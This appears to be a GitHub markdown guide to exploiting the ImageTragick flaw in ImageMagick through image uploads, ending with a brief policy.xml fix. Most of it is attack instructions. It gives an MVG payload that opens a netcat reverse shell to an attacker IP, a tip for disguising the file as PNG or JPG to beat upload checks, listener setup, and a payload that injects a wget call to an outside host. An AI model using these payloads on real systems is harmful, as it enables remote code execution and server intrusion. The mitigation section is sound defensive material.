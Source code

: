 # Exploiting ImageTragick
https://imagetragick.com/ for more details and other exploits for image uploads
## Create a Reverse Shell
```
nano rev.mvg
```
paste in the following lines:
```
push graphic-context

viewbox 0 0 640 480

fill ‘url(https://example.com/image.jpg”|mknod /tmp/pipez p;/bin/sh 0</tmp/pipez|nc 192.168.137.108 4444 1>/tmp/pipez;rm -rf “/tmp/pipez)’

pop graphic-context
```
**Change the IP address and Port number called by NetCat (nc) to match you attacking machine.**


# Bypass File Type Checks:
to bypass file type checks convert the file to a png or jpg file. 
## Convert to PNG
```
Convert exploit.mvg exploit.png
```

## Convert to JPG
```
Convert exploit.mvg exploit.jpg
```

# Get Reverse Shell
## Start Listener On Attack Machine:
```
nc -nvvlp 4444
```

## Upload file
upload the malicious png or jpg file and check to see if it contacts your NetCat listener. 


# Wget command
taken from: https://hackerone.com/reports/135072

Upload the following ASCII file as x.gif 
This will execute the wget command and makes an HTTP request to 1.2.3.4 on port 1337.
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 1.2.3.4:1337 > /dev/null`'
pop graphic-context
```

# Harmless POC:
create harmless POC to run "ls -la" in the terminal
paste in the following lines:
```
push graphic-context
viewbox 0 0 640 480
fill ‘url(https://127.0.0.1/oops.jpg”|ls “-la)’
pop graphic-context
```

# How to fix it:
The ImageMagick team has shared the workaround for a vulnerable version without the need of updating the utility. The original post is published https://www.imagemagick.org/discourse-server/viewtopic.php?f=4&t=29588 
It basically says you need to add following policies to your policy.xml file.
```
<policy domain=”coder” rights=”none” pattern=”EPHEMERAL” />
<policy domain=”coder” rights=”none” pattern=”HTTPS” />
<policy domain=”coder” rights=”none” pattern=”MVG” />
<policy domain=”coder” rights=”none” pattern=”MSL” />
<policy domain=”coder” rights=”none” pattern=”TEXT” />
<policy domain=”coder” rights=”none” pattern=”SHOW” />
<policy domain=”coder” rights=”none” pattern=”WIN” />
<policy domain=”coder” rights=”none” pattern=”PLT” />
```
